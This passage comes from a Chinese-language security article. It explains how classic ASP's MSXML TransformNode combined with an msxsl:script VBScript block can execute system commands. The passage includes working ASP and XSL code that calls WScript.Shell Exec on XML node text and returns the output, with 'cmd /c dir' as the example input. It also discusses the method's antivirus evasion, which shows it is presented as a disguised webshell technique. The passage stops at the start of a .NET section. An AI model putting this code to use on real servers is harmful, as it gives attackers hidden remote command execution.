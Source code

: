具体的调用代码大致如下：

```
set xmldoc= Server.CreateObject("MSXML2.DOMDocument")
xmldoc.loadxml(xml)
set xsldoc= Server.CreateObject("MSXML2.DOMDocument")
xsldoc.loadxml(xslt)
response.write xmldoc.TransformNode(xsldoc)

```

参考msdn得知，自定义函数必须位于msxsl:script元素内，对照示例不难得到以下xsl：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:zcg="zcgonvh">
  <msxsl:script language="vbscript" implements-prefix="zcg">
    <![CDATA[function xml(x):set a=createobject("wscript.shell"):set exec=a.Exec(x):xml=exec.stdout.readall&exec.stderr.readall:end function]]>
  </msxsl:script>
  <xsl:template match="/root">
    <xsl:value-of select="zcg:xml(string(.))"/>
  </xsl:template>
</xsl:stylesheet>

```

在第二行中，xmlns:msxsl为自定义函数块的命名空间，xmlns:zcg为自定义函数的命名空间与前缀，可以任意命名。

第三行的msxsl:script声明了一个脚本块，其language属性指定了要使用的脚本语言，implements-prefix则与前面xmlns:zcg这个命名空间前缀相对应。

在第七行通过zcg:xml(string(.))调用了这个自定义函数，由于自定义函数只能传入字符串、数字、日期等标量，以及XML的一系列对象，所以先通过string内置函数转换为字符串从而获取text，再传入函数中。同样的，由于Response、Server等对象是asp内置的，所以既不能在自定义函数中访问，也不能传递给自定义函数，所有的数据传递都是通过字符串进行的。

脚本块的函数则是简单的执行-返回，其返回值会替换所匹配的节点的内容，所以上述xsl的作用就是：将指定xml中/root节点的文本作为命令执行，并返回结果。

对以下xml进行转换，其返回结果如图：

```
<?xml version="1.0"?>
<root>cmd /c dir</root>

```

![enter image description here](http://drops.javaweb.org/uploads/images/2315c61199e82bbef90dfd4e9f9101604cb1f2df.jpg)

可见成功执行了命令，其结果中的特殊字符都被转换成了xml实体，需要进一步进行处理。

最后，在之前某个IE漏洞中，老外所用的DVE就是使用上述方法来调用组件执行命令，所以免杀效果已经没有保证了。

0x03 .net与xml
=============

* * *

xml可以称为.net的核心之一，[System.Xml]System.Xml.Xsl.XslCompiledTransform类和[System.Xml]System.Xml.Xsl.XslTransform类提供了XSL转换功能。

